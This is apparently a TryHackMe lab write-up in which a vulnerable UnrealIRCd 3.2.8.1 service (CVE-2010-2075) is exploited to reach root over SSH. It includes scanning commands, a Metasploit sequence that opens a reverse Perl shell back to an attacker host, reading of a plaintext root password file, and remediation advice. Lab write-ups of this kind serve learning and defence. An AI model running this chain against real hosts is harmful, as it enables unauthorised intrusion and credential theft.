





# Guided Pentest: Infrastructure - UnrealIRCd Backdoor to SSH Root

**Platform:** TryHackMe
**Difficulty:** Easy
**Type:** Offensive Security / CTF (Network Service)
**Date:** 2026-05-22

---

## Overview

A short guided infrastructure pentest that walks the full classical kill chain against a single host: **reconnaissance → exploitation → post-exploitation → privilege escalation**. The target runs a vulnerable IRC daemon, the post-exploit foothold yields plaintext credentials, and the credentials let an attacker SSH straight in as root.

The vulnerable service is **UnrealIRCd 3.2.8.1**, which was distributed for a brief window in 2009-2010 with a **deliberate backdoor** introduced through a compromised release server. Sending the magic string `AB;` followed by any shell command at the IRC connection causes the daemon to execute the command as the IRC user. The incident is one of the most well-documented supply chain attacks in modern open-source history, catalogued as **CVE-2010-2075**.

---

**Target:** Linux host running UnrealIRCd 3.2.8.1 (port 6667) and OpenSSH

**Tools:** nmap, searchsploit, Metasploit, ssh

---

## Walkthrough

### Phase 1: Service Enumeration

A full TCP service scan against the target surfaces an IRC daemon on the standard port 6667 with the version banner *UnrealIRCd 3.2.8.1*.

```bash
nmap -p- -sV <TARGET_IP>
```



The version string is the entire lead. Modern attackers do not fingerprint, they grep CVE databases by version. A nine-character version banner determines the rest of the engagement.

---

### Phase 2: CVE Matching with searchsploit

**searchsploit** is the offline mirror of Exploit-DB shipped with Kali. Searching it by product name returns every publicly-archived exploit.

```bash
searchsploit unrealircd
```



The relevant hit is the **3.2.8.1 backdoor**, available as a Metasploit module at *exploit/unix/irc/unreal_ircd_3281_backdoor* and as standalone Perl and Python scripts. Any of the three works; the Metasploit module is the fastest in a guided context.

---

### Phase 3: Exploitation via Metasploit

The Metasploit module takes the standard *RHOSTS / RPORT / LHOST / LPORT* parameters and handles the magic-string payload internally.

```
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS <TARGET_IP>
set RPORT 6667
set payload cmd/unix/reverse_perl
set LHOST <KALI_IP>
set LPORT 4444
exploit
```

A reverse shell lands as the user the IRC daemon runs as. The first flag file is readable from that shell.



---

### Phase 4: Credential Discovery

After establishing the foothold, the standard post-exploitation move is to walk readable files for credential material. Listing */etc/* surfaces an unusual file: */etc/password.txt*.

```bash
cat /etc/password.txt
```



The file contains **plaintext root credentials**. This is the textbook *credential at rest* finding (CWE-256), and it converts an unauthenticated network RCE into a clean root SSH login with zero kernel exploits, no SUID hunting, and no cron racing.

---

### Phase 5: Privilege Escalation via SSH

With root credentials in hand, the cleanest path is to SSH back in as root. This keeps the shell interactive, stable, and easy to background.

```bash
ssh root@<TARGET_IP>
```

The root flag drops from */root/*.



---

## Vulnerability Summary

### CVE-2010-2075 - UnrealIRCd 3.2.8.1 Backdoor (CWE-506: Embedded Malicious Code)

UnrealIRCd 3.2.8.1 was distributed with a deliberate backdoor during a window in late 2009 and 2010. Any client that sent the literal string `AB;` followed by a shell command at the IRC connection triggered execution of that command on the daemon's host. The compromise was detected through release-checksum mismatch and patched in 3.2.8.1+. Hosts still running the original release in 2024+ are running deliberately-backdoored code.

**Remediation:** Patch or remove UnrealIRCd to any version after 3.2.8.1. The project itself has been superseded several times since (current branch is 6.x). For any open-source package, verify checksums or PGP signatures against the official release announcement, and use distribution-managed packages where possible.

### Plaintext Credential Storage in /etc/password.txt (CWE-256, CWE-313)

A file at */etc/password.txt* contains the root user's plaintext password. Anyone with read access to the file, including the IRC daemon's user after the backdoor, can recover the credential and reuse it.

**Remediation:** Never store plaintext credentials on disk. If a service needs a password to function, use environment variables loaded at startup from a 0600-permission file owned by root, or pull credentials from a real secrets manager (Vault, AWS Secrets Manager, systemd-creds). Never name a file *password.txt* and place it in a system directory.

### Service Account Running with Excessive Privilege (CWE-250: Execution with Unnecessary Privileges)

While not explicitly the bug exploited here, UnrealIRCd by default does not run as root, but the credential-at-rest in this room let an attacker pivot from the IRC user to root in one step. The general principle still applies: services should run as dedicated low-privilege accounts, and any credential reuse between a service account and root collapses the trust boundary that low-privilege accounts are supposed to enforce.

**Remediation:** Run each service as a dedicated account. Never reuse passwords across the service account and the root / administrative account. Disable root SSH login outright (*PermitRootLogin no* in sshd_config) and require admins to log in as a normal user and use sudo for elevation.

---

## Key Takeaways

- **Supply chain attacks are not theoretical.** The UnrealIRCd backdoor is the textbook example. Verify checksums and PGP signatures for any software not pulled through a trusted distribution repository.
- **searchsploit is the fastest version-to-CVE pipeline.** A version banner plus one searchsploit query is the right opening move on any fingerprinted service.
- **The Metasploit module wraps work, but the manual chain teaches more.** This room is solvable in two commands with the module. The standalone Perl and Python exploits do the same thing and reveal what the framework is hiding. Doing both is the right way to learn.
- **Always read every readable file after a foothold.** The path from IRC-user RCE to root SSH was a single *cat /etc/password.txt*. Walking the filesystem for credential material should be the second move on every Linux foothold, right after *id* and *sudo -l*.
- **Disabling root SSH is one line of defense that defeats this whole chain.** *PermitRootLogin no* in sshd_config means the plaintext root password in a file is much less useful, because root cannot SSH in directly.
